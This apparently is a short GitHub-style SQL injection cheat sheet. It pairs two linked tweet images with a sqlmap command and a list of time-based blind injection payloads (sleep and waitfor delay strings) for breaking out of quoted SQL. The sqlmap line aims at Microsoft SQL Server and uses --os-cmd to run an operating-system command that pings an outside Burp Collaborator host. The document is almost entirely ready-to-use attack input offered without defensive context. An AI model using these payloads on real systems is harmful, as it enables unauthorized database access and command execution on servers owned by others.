 <h1 align="center">SQLI --> SQL Injection</h1>
<h3>1</h3>
<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img align="center" width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```

<h3>2</h3>
<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

Payloads
```
   ')) or sleep(5)='
   ;waitfor delay '0:0:5'--
   );waitfor delay '0:0:5'--
   ';waitfor delay '0:0:5'--
   ";waitfor delay '0:0:5'--
   ');waitfor delay '0:0:5'--
   ");waitfor delay '0:0:5'--
   ));waitfor delay '0:0:5'--
```

